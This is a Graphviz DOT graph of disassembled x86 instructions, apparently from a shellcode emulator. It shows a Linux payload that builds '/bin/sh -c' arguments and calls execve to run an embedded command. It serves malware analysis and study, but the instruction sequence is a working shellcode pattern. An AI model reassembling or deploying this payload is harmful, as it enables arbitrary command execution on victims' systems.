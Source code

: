 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x892bca0" [shape=box, label = "0x00417000 6A0B                            push byte 0xb\l0x00417002 58                              pop eax\l0x00417003 99                              cwd \l0x00417004 52                              push edx\l0x00417005 66682D63                        push word 0x632d\l0x00417009 89E7                            mov edi,esp\l0x0041700b 682F736800                      push dword 0x68732f\l0x00417010 682F62696E                      push dword 0x6e69622f\l0x00417015 89E3                            mov ebx,esp\l0x00417017 52                              push edx\l0x00417018 E80F000000                      call 0x14\l0x0041702c 57                              push edi\l0x0041702d 53                              push ebx\l0x0041702e 89E1                            mov ecx,esp\l"]
	 "0x892eb78" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417030 execve\l"]
	 "0x892bca0" -> "0x892eb78" [style = bold ]
}